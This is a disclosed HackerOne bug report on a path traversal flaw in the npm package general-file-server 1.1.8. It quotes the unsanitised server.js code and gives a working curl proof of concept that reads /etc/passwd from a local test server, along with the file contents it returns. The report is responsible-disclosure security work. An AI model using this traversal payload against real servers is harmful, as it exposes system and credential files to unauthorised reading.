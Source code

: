 # [general-file-server] Path Traversal vulnerability allows to read content on arbitrary file on the server

## Report Details
- **Report ID**: 310943
- **URL**: https://hackerone.com/reports/310943
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-01-31T13:35:55.843Z
- **Disclosed**: 2018-03-10T14:31:20.387Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal in general-file-server module.
It allows to read content of arbitrary files on the remote server.

## Module

**general-file-server**

This is a general file server made by nodejs. It will be easy for you to access the files on the server through the browser.

https://www.npmjs.com/package/general-file-server

version: 1.1.8

Stats
1 download in the last day
17 downloads in the last week
67 downloads in the last month

~750 estimated downloads per year


## Description

Lack of file path sanitization causes that any file on the server might be read by malicious user, despite the fact that there is ```root_path``` setting in module's ```config.js``` file:

```javascript
// sample config.js
module.exports = {
    hostname: '127.0.0.1',
    port: 8080,
    root_path: "./",
    title: "General File Server",
    logo_link: "/____statics/logo.png"
}
```

Here's the code which causes issue:

```javascript
// node_modules/general-file-server/server.js, line 77
if (pathname.search('____statics') == 1) {
        currpath = __dirname + pathname

        fs.stat(currpath, function (err, stat) {
            if (err || stat.isDirectory()) {
                endupwith404(res)
            } else {
                res.writeHeader(200, {
                    'Content-Type': mime.lookup(currpath)
                })
                fs.createReadStream(currpath).pipe(res)
            }
        })
    }
```

As you can see, ```currpath``` is passed to ```fs.createFileStream()``` and piped directly into Response object withou any sanitization against Path Traversal.


## Steps To Reproduce:


- install ```general-file-server```:

```
$ npm install general-file-server
```

- run ```general-file-server``` in direcotry of your choice. It will use settings from ```config.js``` file:

```
me:~/playground/hackerone/Node$ ./node_modules/general-file-server/server.js
> serving "./" http://127.0.0.1:8080
```

- execute following ```curl``` command (adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../../../etc/passwd
```

- see result:

```
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Content-Type: application/octet-stream
< Date: Wed, 31 Jan 2018 12:53:13 GMT
< Connection: keep-alive
< Transfer-Encoding: chunked
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
```

## Supporting Material/References:


- Ubuntu 16.04 LTS
- Chromium 66.0.3333.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.4 LTS
- npm version: 5.6.0
- curl 7.47.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows malicious user to read content of any file on the server

## Attachments
No attachments
